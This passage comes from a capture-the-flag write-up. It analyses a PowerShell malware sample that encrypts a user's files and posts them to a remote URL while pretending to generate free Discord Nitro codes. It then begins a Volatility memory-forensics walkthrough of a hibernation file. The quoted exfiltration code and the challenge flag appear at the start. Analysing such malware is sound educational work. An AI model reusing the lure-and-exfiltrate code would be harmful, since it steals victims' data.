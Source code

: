 ```
    try {
        $headers = @{
            'Content-Type' = 'text/plain'
            'User-Agent' = 'Mozilla/5.0'
        }
        Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
    }
    catch {}
    
    Write-Host "Success! Discord Nitro Keys:"
    $keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
    $keys | ForEach-Object { Write-Output $_ }
```

We can see this is using AES encryption on the files while making the user think its generating free discord nitro keys, as well as a part1 of the flag.
It decrypted the content of the other file with using the same value for IV and for the AES key.


![b64 part 2 of flag](https://i.imgur.com/NynKykK.png)


```
HTB{fr33_N17r0G3n_3xp053d!_b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5}
```

---

## Oblique Final
> Attempted by :  Starry-Lord, thewhiteh4t

This challenge occupied a good 3 days of our time and taught us a new attack vector so it gets its own writeup even if it got solved too late. Everything starts with a large 4GB `hiberfil.sys` file. This is a hibernation file that got extracted form a laptop after it got out of battery. We managed to extract the active memory from that which gave us 6GB of memory to look through. We used volatility 2 and 3 to achieve a better understanding of the machine, until we could find interesting files in the user’s home folder, and dig them for more.


Arsenal Recon offers a 30day trial for their tools and I decided to try it for the occasion. Very intuitively, I was guided through an ui that allowed to retrieve the Active memory as a bin file. With this 6GB file in the pocket it was time to finally work our volatility skills, allowing us to enumerate everything that was running while it went into hibernation.

```
    volatility 2:
    
    pslist
    filescan
    mftscan
    
    volatility 3:
    
    windows.filescan.FileScan
    windows.dumpfiles.DumpFiles
```
